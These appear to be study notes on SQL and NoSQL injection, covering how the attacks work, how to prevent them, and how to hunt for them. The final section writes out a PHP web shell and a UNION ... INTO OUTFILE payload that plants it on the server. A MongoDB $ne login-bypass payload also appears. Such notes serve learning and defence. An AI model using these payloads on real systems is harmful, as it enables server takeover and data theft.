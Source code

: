### SQL Injections
#
* Similar to XSS, this executes incorrectly filtered or escaped SQL commands to an app's database.
* Leads to authentication bypass, data leaks, tampering and RCE.
* Login prompts are an avenue for these vulnerabilities since you are submitting queries for login information.

### Second-Order SQL Injections
#
* First order injections are when user input is used directly in a SQL query.
* Second order is when you retrieve stored user input from the database.

### Prevention
#
* Prepared statements/Parameterized queries. 
    * These make injections practically impossible by ensuring user input doesn't alter SQL logic.
    * The SQL servers compiles the SQL query before any user input is inserted. You'd define
    the logic first before the input data.
    * Anything that deviates from this logic will be treated as a string that is uncapable of executing.
* Create an allowlist for values. You could allow operators like ORDER BY for example.
* Escaping/Sanitizing.
    * ' and " should be fixed.
    * **Different databases have specific characters.**

### Hunting SQL Injections
#
* Categorized into classic & blind varieties.
* Common technique is to insert a single ' then for errors or odd behavior.
* The ' denotes the end of a query string.
* Introducing or experiencing time delays could be a hint.
* Fuzzing
* **Classic** - SQL queries that are returned directly to the attacker.
#
* **Blind** - Harder to find because the web app doesn't return SQL data or error messages. Also called **Inferential SQL injections**.
* These are normally boolean or time based.
* Boolean testing involves sending test conditions to recieve true/false return values. Infering info.
* Time-based injections rely on response times between different payloads. This is meant more for apps that dont give visual clues.

### NoSQL Injections
#
* Stands for Not-Only SQL. Does not use SQL.
* SQL stores data in tables. NoSQL stores data in key-value pairs and graphs.
* Syntax is database specific:
    * MongoDB: Users.find({username:'vickie',password:'password123'})
    * Replace 'password123' with {$ne: ""}. This searches for a paired value that does equal " ". You can find passwords this way.
    * You can execute JavaScript as well. $where,mapReduce,$accumulator, and $function.
    * Characters like ' , ", ; , \ , () , [] , and {} can be used.
### Prevention
#
* Validators
* Disable server-side JavaScript with --noscripting on the CMD.
* Disable security.javascriptEnabled on the config file.
* **Principle of least priviledge** - only give apps the priviledges they need.

### Enumerating the service
#
* @@version on Microsoft SQL server & MySQL
* v$version for Oracle.

### Gain a web shell
#
* <<meta>? system($_REQUEST['cmd']); ?>
* Create a file onm the server with a nonexistant user:
    * SELECT Password FROM Users WHERE Username='abc'
      UNION SELECT "<? system($_REQUEST['cmd']); ?>"
      INTO OUTFILE "/var/www/html/shell.php"
    * Password is blank, so you can upload that cmd script then visit that scripts URL to execute it.
        * http://www.example.com/shell.php?cmd=COMMAND

